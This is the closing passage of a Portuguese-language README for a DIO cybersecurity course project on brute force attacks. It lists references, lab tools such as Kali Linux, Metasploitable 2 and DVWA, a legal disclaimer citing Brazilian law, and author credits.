- [DIO - Formação Cibersegurança](https://dio.me/) (onde fiz este curso)
- [Offensive Security - OSCP](https://www.offensive-security.com/)
- [eLearnSecurity - eCPPTv2](https://elearnsecurity.com/)

### 🛠️ Ferramentas Utilizadas
- [Kali Linux](https://www.kali.org/)
- [Metasploitable 2](https://sourceforge.net/projects/metasploitable/)
- [DVWA](https://github.com/digininja/DVWA)
- [SecLists Wordlists](https://github.com/danielmiessler/SecLists)

---

## 📝 Aviso Legal e Ético

### ⚖️ LEIA COM ATENÇÃO

```
⚠️ AVISO IMPORTANTE ⚠️

Este projeto foi desenvolvido APENAS para fins educacionais.
Todos os testes foram realizados em ambiente ISOLADO e CONTROLADO.

Realizar testes de segurança sem autorização EXPLÍCITA e POR ESCRITO
do proprietário do sistema é CRIME no Brasil e na maioria dos países.

Lei nº 12.737/2012 (Lei Carolina Dieckmann):
"Art. 154-A. Invadir dispositivo informático alheio [...] mediante 
violação indevida de mecanismo de segurança [...]: Pena - detenção, 
de 3 (três) meses a 1 (um) ano, e multa."

NUNCA use essas técnicas em sistemas reais sem permissão formal!
```

---

## 👨‍💻 Sobre o Autor

Projeto desenvolvido por mim como parte do **Desafio de Projeto da DIO - Formação em Cibersegurança**.

[](https://dio.me/)
[](https://github.com/AdalbertoJH/DIO_DESAFIO_BRUTEFORCE)

---

<div align="center">

### ⭐ Se este projeto te ajudou de alguma forma, considere dar uma estrela!

**Feito com 💙 para aprender e compartilhar conhecimento em Cibersegurança**

**#Cibersegurança #EthicalHacking #Pentesting #DIO #KaliLinux #BruteForce #AprendizadoContínuo**

</div>